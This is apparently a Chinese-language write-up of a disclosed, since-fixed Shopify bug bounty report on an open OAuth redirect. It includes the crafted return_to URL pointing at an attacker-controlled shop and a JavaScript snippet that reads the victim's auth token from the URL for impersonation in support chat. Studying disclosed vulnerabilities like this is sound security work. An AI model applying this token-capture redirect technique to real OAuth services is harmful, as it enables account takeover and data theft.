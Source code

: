 # 漏洞散记
##  Shopify的信息窃取
> Shopify的一个漏洞，作者给的定义是信息窃取，也确实达到了这个漏洞的效果，但是个人觉得，定义为重定向更好一点，因为漏洞的成因是因为能重定向到一个能够被attacker完全定义Html与javascrip的地址上，所以才能记录用户的token。题外话，至于为什么我说是无良厂商，是因为有一次不仅不承认我的漏洞，还把我给N/A了，感觉很气

> 漏洞价值:1500$

>源地址:[#151058](https://hackerone.com/reports/151058)

## 漏洞过程

正如之前所说的一样，漏洞还是出现在了重定向的URL中，而且同样是一个认证的重定向链接:
```
https://tasker-merchant-auth.herokuapp.com/auth/shopify/?utf8=%E2%9C%93&auth_type=chat&return_to=https%3A%2F%2Flivechat.shopify.com%2Fcustomer%2Fchats%2Fnew&shop=<shop>.myshopify.com
```

如上链接是Shopify的一个在线服务功能，具体的业务流程就是你先经过权限认证后，就会跳转到**livechat.shopify.com**，然后实现在线提问，参数shop是需要验证的商店，若之前就已经登录了商店的话，就会直接按照**return_to**这个参数进行跳转

### 突破点

The problem is that you have configured your oauth redirect_uri (the return_to parameter ) to accept any link like this:

    <anything>.shopify.com/
    <anything>.myshopify.com/

重定向的URL接收这些URL类型，而偏偏Shopify可以定制自己商店的HTML与javascript，所以作者更改了**return_to**的值

```
https://tasker-merchant-auth.herokuapp.com/auth/shopify/?utf8=%E2%9C%93&auth_type=chat&return_to=https://<attacker_shop>.myshopify.com/&shop=<victim_shop>.myshopify.com
```
若已经认证过权限的用户点击链接后，将会跳转到**attacker.myshopify.com**，并且携带自己的认证token

简单来说就是被重定向到了
```
https://<attacker_shop>.myshopify.com/?auth_code=<access_token>
```
接下来，attacker只要在自己的页面中添加如下代码:
```
<script>
 var token = window.location.search.match(/auth_code=([^&]+)/);
      if (token && token.length > 1) {
        alert("Your access token is: " + token[1]);
        document.write("Attacker can use it to chat with support agents as you and he will be able to get your email <br> <b>Go to https://livechat.shopify.com/customer/chats/new?auth_type=chat&auth_code=" + token[1]);
      }

</script>

```
受害者的token将会以弹框的方式展示

## 结语

就在写这篇散记的时候，漏洞是已经修复的，当我去尝试更改**return_to**的值时，页面会显示：
```
return_to parameter is invalid
```
然而我偶然想到之前写的HPP的攻击方式，所以我去尝试了一下,发现简单的测试并没有成功

重定向的漏洞并不是很难发现，就看能不能多去尝试，此漏洞作者只是在最有可能的地方改了自己想改的东西，结合程序本身的服务，扩大了漏洞的影响，因为挖到了$1500
